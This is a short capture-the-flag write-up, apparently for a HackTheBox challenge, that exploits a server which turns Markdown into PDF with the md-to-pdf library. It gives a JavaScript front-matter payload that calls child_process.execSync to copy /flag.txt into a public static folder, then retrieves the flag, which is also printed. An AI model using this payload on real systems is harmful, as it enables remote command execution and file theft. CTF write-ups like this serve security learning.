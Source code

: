Look over code and see it uses md-to-pdf

Google for 'md-to-pdf rce' https://github.com/simonhaenisch/md-to-pdf/issues/99

```
---js
((require(\"child_process\")).execSync(\"cat /flag.txt > /app/static/flag.txt\"))
---
RCE
```

```
GET /static/flag.txt
```
```
HTB{bl1nk3r_flu1d_f0r_int3rG4l4c7iC_tr4v3ls}
```